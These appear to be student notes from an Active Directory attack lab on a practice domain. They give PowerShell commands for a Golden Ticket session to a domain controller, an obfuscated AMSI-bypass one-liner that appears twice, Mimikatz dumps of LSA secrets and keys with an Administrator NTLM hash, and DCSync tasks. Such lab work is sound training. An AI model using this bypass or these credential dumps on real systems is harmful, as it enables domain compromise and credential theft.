 We can extract all the secrets from the DC.
Run the below commands from the PowerShell session where you injected Golden Ticket.

```
PS C:\AD\Tools> $sess = New-PSSession us-dc.us.techcorp.local

PS C:\AD\Tools> Enter-PSSession -Session $sess

[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit

PS C:\AD\Tools> Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess

PS C:\AD\Tools> Enter-PSSession -Session $sess

[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'

[SNIP]

mimikatz(powershell) # lsadump::lsa /patch

Domain : US / S-1-5-21-210670787-2521448726-163245708

[SNIP]

RID  : 000001f4 (500)
User : Administrator 👤
LM   :
NTLM : 43b70d2d979805f419e02882997f8f3f 🔑

[SNIP]
```

---
---

## DCSync Attack via ACL Abuse

### Lab: Hands-On #16

#### Tasks

Later during the extra lab time:
- Check if `studentuser51` has Replication (DCSync) rights
- If yes, execute the DCSync attack to pull hashes of the `krbtgt` use.
- If no, add the replication rights for the `studentuser51` and execute the DCSync attack to pull hashes of the `krbtgt` user


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit